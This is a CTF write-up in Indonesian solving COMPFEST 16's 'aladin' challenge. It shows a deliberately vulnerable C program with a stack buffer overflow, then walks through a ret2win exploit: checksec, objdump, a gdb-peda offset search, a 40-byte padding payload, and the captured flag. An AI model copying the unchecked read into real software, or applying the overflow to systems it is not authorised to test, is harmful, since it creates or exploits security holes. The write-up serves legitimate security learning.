 # [500 pts] aladin
### Category: Binary Exploitation

**Deskripsi:**
>terkadang sebuah perjuangan tidak hanya memerlukan usaha, tapi memerlukan bantuan dari dunia gaib, hehehe...
>
>Author: nabilmuafa
>
>nc challenges.ctf.compfest.id 20006

**chall.c:**
```c
#include <stdio.h>
#include <stdlib.h>

/* gcc -Wl,-z,relro,-z,now -no-pie -fno-stack-protector chall.c -o chall */

void win(int mantra)
{
    puts("wow! mantra kamu benar! sebagai hadiahnya, jin akan memberikan kamu suatu mantra lain yang dapat kamu gunakan untuk menang ctf compfest (semoga beneran).");
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
        printf("File flag.txt does not exist! >:(");
        return 69;
    }
    char flag[0x100];
    fgets(flag, 0x100, f);
    puts(flag);
}

void vuln()
{
    char mantra[32];

    puts("kamu menemukan sebuah gua... di dalam gua tersebut ada jin yang bisa memberi kamu akses jadi pemenang ctf compfest 16...");
    puts("tapi syaratnya kamu harus bisa menyebutkan mantra sakti yang diinginkan jin tersebut...\n");
    puts("jin: 'tenang saja... soal ini tidak toksik seperti soal tahun lalu... tapi kamu harus menyebutkan mantra sakti...'\n");
    printf("sebutkan mantra sakti tersebut: ");

    read(0, mantra, 0x200);

    puts("duar! jin tersebut memproses mantra sakti kamu... apakah kamu akan jadi pemenang ctf compfest 16...?\n");
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    vuln();
    puts("yah, nampaknya mantra kamu masih salah...");
    return 0;
}
```

### Solusi:

Diberikan source code dan binary dari source code yang sudah di compile, awalnya saya cek keamanan dari file binary tersebut:
```
checksec chall
```

**Output:**
```
Arch:     amd64-64-little  
RELRO:    Full RELRO  
Stack:    No canary found  
NX:       NX enabled  
PIE:      No PIE (0x400000)   
```

 Tidak ada stack canary yang melindungi stack, sehingga mungkin untuk dilakukan serangan buffer overflow, untuk lebih membuktikan mari jalankan program:
 ```
 chmod +x chall  
 ./chall
 ```

**Output:**
```
kamu menemukan sebuah gua... di dalam gua tersebut ada jin yang bisa memberi kamu akses jadi pemenang ctf compfest 16...
tapi syaratnya kamu harus bisa menyebutkan mantra sakti yang diinginkan jin tersebut...
 
jin: 'tenang saja... soal ini tidak toksik seperti soal tahun lalu... tapi kamu harus menyebutkan mantra sakti...'
 
sebutkan mantra sakti tersebut:
```

Terlihat program tersebut meminta input dari pengguna dengan ekspektasi diberikan input string, dengan mencoba menginput string yang sangat panjang (misal 100 karakter), 
```
zsh: segmentation fault  ./chall
```

Terjadi segmentation fault sehingga terbukti kita bisa melakukan exploit pada buffer. Terlihat di source code bahwa flag akan di print pada fungsi win().
Maka kita akan melakukan exploit dengan menginput string berupa format:
> (padding offset) + (address fungsi win())

Gunakan _objdump_ untuk mencari address fungsi win():
```
objdump -d chall | grep win
```

**Output:**
```
00000000004011d6 <win>:  
401213:       75 13                   jne    401228 <win+0x52>  
401226:       eb 27                   jmp    40124f <win+0x79>
```

Didapatkan address yaitu 0x4011d6, kemudian cari offset menggunakan gdb-peda dengan memakai command pattern. Cara menginstall gdb-peda: https://n0a110w.github.io/notes/security-stuff/peda.html 

Pattern akan dimasukkan kedalam file bernama "payload" dan akan di-input kedalam program. Lakukan dengan command: 
```
gdb-peda chall  
pattern create 100 payload  
run < payload
```

Yang perlu kita lihat yaitu pada bagian registers,

**Output:**
```assembly
 RAX  0x66
 RBX  0x7fffffffdf18 —▸ 0x7fffffffe286 ◂— '/home/kali/current/chall'
 RCX  0x7ffff7ec64e0 (write+16) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0
 RDI  0x7ffff7f9f710 (_IO_stdfile_1_lock) ◂— 0
 RSI  0x7ffff7f9e643 (_IO_2_1_stdout_+131) ◂— 0xf9f710000000000a /* '\n' */
 R8   0
 R9   0x7ffff7fcfb30 (_dl_fini) ◂— push rbp
 R10  0x7fffffffdb30 ◂— 0x20 /* ' ' */
 R11  0x202
 R12  0
 R13  0x7fffffffdf28 —▸ 0x7fffffffe29f ◂— 0x5245545f5353454c ('LESS_TER')
 R14  0x7ffff7ffd000 (_rtld_global) —▸ 0x7ffff7ffe2c0 ◂— 0
 R15  0
 RBP  0x6141414541412941 ('A)AAEAAa')
 RSP  0x7fffffffddf8 ◂— 0x4141464141304141 ('AA0AAFAA')
 RIP  0x4012bb (vuln+106) ◂— ret 
```

Terjadi segmentation fault seperti sebelumnya, hal ini terjadi karena return address yang akan dijalankan RIP ter-overwrite oleh input yang kita masukkan.

Karena menggunakan RIP, maka program pasti menggunakan arsitektur 64-bit. Pada arsitektur 64-bit return address yang ter-overwrite akan berada di RSP,
sehingga untuk mencari offset kita melihat string yang masuk ke RSP dan kita gunakan command pattern offst dari gdb-peda:
```
pattern offset AA0AAFAA
```

**Output:**
```
AA0AAFAA found at offset: 40
```

Maka didapatkan offset sebanyak 40 karakter, yang artinya kita harus meng-input 40 karakter sebelum bisa mulai meng-overwrite return address fungsi vuln().
Untuk itu, kita gunakan library pwntools untuk membuat solver script ini. 

Pada solver script kita akan membuat payload yang berupa 40 karakter 'A' + p64(0x4011d6). Fungsi p64() adalah fungsi builtin dari pwntools yang akan menyesuaikan format address menjadi little endian.

Lebih lanjut mengenai Endiannes: https://www.geeksforgeeks.org/little-and-big-endian-mystery/
> Note: gunakan fungsi p32() jika program menggunakan arsitektur 32-bit

Solver script: [aladin.py](https://github.com/FieryBanana101/COMPFEST-16_TeamBaruBelajarCTF/blob/main/Hacker%20Class/aladin/aladin.py)

> Flag: **COMPFEST16{still_easy_ret2win_right?_a4e27d3beb}**

Problem ini merupakan binary exploitation tipe ret2win, untuk lebih lanjut: https://ir0nstone.gitbook.io/notes/types/stack/ret2win

